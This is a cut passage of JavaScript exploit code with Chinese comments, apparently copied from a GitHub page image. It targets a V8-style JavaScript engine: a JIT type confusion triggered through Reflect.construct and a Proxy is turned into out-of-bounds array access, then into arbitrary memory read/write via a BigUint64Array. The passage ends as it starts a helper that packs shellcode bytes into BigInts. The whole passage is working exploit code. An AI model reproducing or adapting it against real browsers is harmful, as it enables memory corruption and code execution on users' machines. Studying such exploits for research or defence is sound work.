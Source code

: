 ```javascript
	vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
	for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};	// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];	// 修改此数组的length来达到oob
		uint64_arw = new BigUint64Array(2);	// 实现任意地址读写
		//%DebugPrint(oob_array);
		//%DebugPrint(uint64_arw);
		//%SystemBreak();
		return Object.prototype;
	}
});
function main(p) {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT
	f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
	console.log("[+] convert confusion to oob......");

	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT

	main(empty);
	main(empty);

	main(p);
	console.log("	oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
	console.log("[+] get absolute read/write access......");
	
	// 相对于oob_array[0]的偏移
	uint64_length_offset = 16;
	uint64_externalptr_offset = 17;
	uint64_baseptr_offset = 18;
	// 用来保存这三个值
	uint64_length = f2i(oob_array[uint64_length_offset]);
	uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
	uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
	console.log("	uint64_length_offset: " + hex(uint64_length));
	console.log("	uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
	console.log("	uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));

	test = [0x41,0x41,0x41,0x41];
	arw_write(uint64_externalptr_ptr+0x08088888n, test);
}
// 将shellcode[]转化为BitInt
function ByteToBigIntArray(payload)
{

    let sc = []
    let tmp = 0n;
    let lenInt = BigInt(Math.floor(payload.length/8))
    for (let i = 0n; i < lenInt; i += 1n) {
        tmp = 0n;
        for(let j=0n; j<8n; j++){
            tmp += BigInt(payload[i*8n+j])*(0x1n<<(8n*j));
        }
        sc.push(tmp);
```